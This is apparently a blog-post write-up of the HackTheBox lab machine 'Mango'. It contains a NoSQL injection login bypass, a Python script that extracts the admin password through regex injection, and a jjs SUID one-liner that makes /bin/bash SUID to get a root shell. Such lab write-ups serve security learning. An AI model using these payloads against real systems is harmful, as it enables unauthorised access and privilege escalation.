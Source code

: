 ```yaml
---
layout: post
title:  "HackTheBox - Mango"
date:   2021-07-29 17:06:25
categories: Pentesting
---
```


# ENUMERATION

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Issuer: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-09-27T14:21:19
| Not valid after:  2020-09-26T14:21:19
| MD5:   b797 d14d 485f eac3 5cc6 2fed bb7a 2ce6
|_SHA-1: b329 9eca 2892 af1b 5895 053b f30e 861f 1c03 db95
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: Host: 10.10.10.162; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Add the subdomain name staging-order.mango.htb to /etc/hosts and it opens a login page.

# FOOTHOLD

```
username[$ne]=toto&password[$ne]=toto
```
Editing this payload via burpsuite redirects us to /home.php ( Found it while trying injections from Payload of All Things )
So wrote my super buggy script:

```py
import requests
import string
url = "http://staging-order.mango.htb/"
headers = {"Host": "staging-order.mango.htb"}
cookies = {"PHPSESSID": "jo7dctnivj75pdtnkrc2k910ji"}
possible_chars = list(string.ascii_letters) + list(string.digits) + list(string.punctuation)
def password():

	params = {"username":"admin", "password[$regex]":"", "login": "login"}
	password = "^"
	while True:
		for c in possible_chars:
			if c not in ['*','+','.','?','|']:
				params["password[$regex]"] = password + c + ".*"
				pr = requests.post(url, data=params, headers=headers, allow_redirects=False)
				if int(pr.status_code) == 302:
					password += c
					print(password)
					break
	
password()
```
You want a better one, heres the link [hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)

SSH to the box using user mango after bruteforcing its password and change username to admin using admin's password.

# PRIVILEGE ESCALATION

Finding SUID binaries:
```
/bin/fusermount
/bin/mount
/bin/umount
/bin/su
/bin/ping
/snap/core/7713/bin/mount
/snap/core/7713/bin/ping
/snap/core/7713/bin/ping6
/snap/core/7713/bin/su
/snap/core/7713/bin/umount
/snap/core/7713/usr/bin/chfn
/snap/core/7713/usr/bin/chsh
/snap/core/7713/usr/bin/gpasswd
/snap/core/7713/usr/bin/newgrp
/snap/core/7713/usr/bin/passwd
/snap/core/7713/usr/bin/sudo
/snap/core/7713/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/7713/usr/lib/openssh/ssh-keysign
/snap/core/7713/usr/lib/snapd/snap-confine
/snap/core/7713/usr/sbin/pppd
/snap/core/6350/bin/mount
/snap/core/6350/bin/ping
/snap/core/6350/bin/ping6
/snap/core/6350/bin/su
/snap/core/6350/bin/umount
/snap/core/6350/usr/bin/chfn
/snap/core/6350/usr/bin/chsh
/snap/core/6350/usr/bin/gpasswd
/snap/core/6350/usr/bin/newgrp
/snap/core/6350/usr/bin/passwd
/snap/core/6350/usr/bin/sudo
/snap/core/6350/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/6350/usr/lib/openssh/ssh-keysign
/snap/core/6350/usr/lib/snapd/snap-confine
/snap/core/6350/usr/sbin/pppd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/run-mailcap
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/at
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
```

/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs    : This binary looks out of place.
Searching GTFOBins gives us an SUID exploit but for some reason it froze my terminal , so even though i got root i could not execute further commands :/

So we modify that exploit in order to get a working shell:

```java
echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod +s /bin/bash |sh\${IFS}-p _ ech-p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

And we execute the command:

```
bash -p
```

And we are ROOT!! :))